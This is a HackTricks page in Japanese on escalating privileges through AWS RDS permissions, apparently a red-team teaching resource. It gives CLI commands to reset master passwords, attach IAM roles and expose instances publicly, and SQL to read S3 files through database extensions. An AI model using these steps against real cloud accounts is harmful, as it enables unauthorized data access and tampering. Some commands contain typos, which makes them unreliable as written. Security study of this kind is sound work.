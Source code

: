 # AWS - RDS Privesc

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じて、ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
* **💬** [**Discordグループ**](https://discord.gg/hRep4RUj7f) または [telegramグループ](https://t.me/peass) に **参加** するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) **をフォロー** してください。
* **ハッキングテクニックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のgithubリポジトリに提出してください。

</details>

## RDS - 関係データベースサービス

RDSに関する詳細情報は次を参照してください:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

この権限を持っていると、攻撃者は**マスターユーザーのパスワードを変更**し、データベース内のログインを変更できます。

```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

{% hint style="warning" %}
データベースに**連絡する必要**があります（通常、内部ネットワークからのみアクセス可能です）。
{% endhint %}

**潜在的な影響:** データベース内で機密情報を見つける。

### rds-db:connect

[**ドキュメント**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)によると、この権限を持つユーザーはDBインスタンスに接続できます。

### RDSロールIAM権限の悪用

#### Postgresql（Aurora）

{% hint style="success" %}
\*\*`SELECT datname FROM pg_database;`**を実行して**`rdsadmin`\*\*というデータベースが見つかった場合、**AWSのPostgresqlデータベース**内にいることがわかります。
{% endhint %}

まず、このデータベースが他のAWSサービスへのアクセスに使用されているかどうかを確認できます。インストールされた拡張機能を確認することでこれを確認できます：

```sql
SELECT * FROM pg_extension;
```

もし\*\*`aws_s3`**のようなものを見つけた場合、このデータベースが**S3に対するある種のアクセス**を持っていると推定できます（**`aws_ml`**や**`aws_lambda`\*\*などの他の拡張子もあります）。

また、**`aws rds describe-db-clusters`を実行する権限がある場合、`AssociatedRoles`フィールドでクラスタに紐付けられたIAMロール**があるかどうかを確認できます。もしあれば、そのデータベースが**他のAWSサービスにアクセスするために準備されている**と推定できます。**ロールの名前**（またはロールの**権限**を取得できる場合）に基づいて、データベースがどのような追加アクセス権限を持っているかを**推測**することができます。

さて、**バケット内のファイルを読む**には、フルパスを知る必要があります。次のようにして読むことができます：

```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```

もし**生のAWS資格情報**を持っている場合、それらを使用してS3データにアクセスすることもできます。

```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```

{% hint style="info" %}
PostgresqlはS3にアクセスするために**任意のパラメータグループ変数を変更する必要はありません**。
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Mysql内で、クエリ\*\*`SELECT User, Host FROM mysql.user;`**を実行し、**`rdsadmin`\*\*というユーザーがいる場合、**AWS RDS mysql db**内にいると推定できます。
{% endhint %}

Mysql内で\*\*`show variables;`**を実行し、**`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`\*\*などの変数に値がある場合、データベースがS3データにアクセスする準備が整っていると推定できます。

また、**`aws rds describe-db-clusters`を実行する権限がある場合、クラスターに関連付けられたロール**があるかどうかを確認できます（通常、AWSサービスへのアクセスを意味します）。

今、**バケット内のファイルを読む**には、フルパスを知る必要があります。次のようにして読むことができます：

```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```

### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster`および`iam:PassRole`権限を持つ攻撃者は、**指定されたロールを既存のRDSインスタンスに追加**できます。これにより、攻撃者は**機密データにアクセス**したり、インスタンス内のデータを変更したりする可能性があります。

```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```

**潜在的影響**: RDSインスタンス内の機密データへのアクセスや権限のないデータの変更が可能となります。\
一部のDBは追加の設定が必要な場合があります。たとえば、Mysqlでは、パラメータグループでロールARNを指定する必要があります。

### `rds:CreateDBInstance`

この権限だけで、攻撃者はすでに存在するクラスタ内に**新しいインスタンス**を作成し、**IAMロール**をアタッチすることができます。彼はマスターユーザーパスワードを変更することはできませんが、新しいデータベースインスタンスをインターネットに公開する可能性があります。

```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```

### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: テスト
{% endhint %}

`rds:CreateDBInstance` と `iam:PassRole` の権限を持つ攻撃者は、**指定されたロールがアタッチされた新しいRDSインスタンスを作成**することができます。その後、攻撃者は潜在的に**機密データにアクセス**したり、インスタンス内のデータを変更する可能性があります。

{% hint style="warning" %}
アタッチするロール/インスタンスプロファイルのいくつかの要件（[**こちら**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)から）:

* プロファイルはあなたのアカウントに存在している必要があります。
* プロファイルには、Amazon EC2が前提とするIAMロールを持っている必要があります。
* インスタンスプロファイル名と関連するIAMロール名は、接頭辞 `AWSRDSCustom` で始まる必要があります。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**潜在的な影響**: RDSインスタンス内の機密データへのアクセスまたは権限のないデータの変更。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance`および`iam:PassRole`の権限を持つ攻撃者は、**指定されたロールを既存のRDSインスタンスに追加**できます。これにより、攻撃者はインスタンス内の**機密データにアクセス**したり、データを変更したりする可能性があります。

{% hint style="warning" %}
このDBインスタンスはクラスターの外にある必要があります
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**潜在的な影響**: RDSインスタンス内の機密データへのアクセスやデータへの不正な変更。

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬** [**Discordグループ**](https://discord.gg/hRep4RUj7f)**や**[**telegramグループ**](https://t.me/peass)**に参加するか、Twitter 🐦** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**で**フォロー\*\*してください。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks)のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>

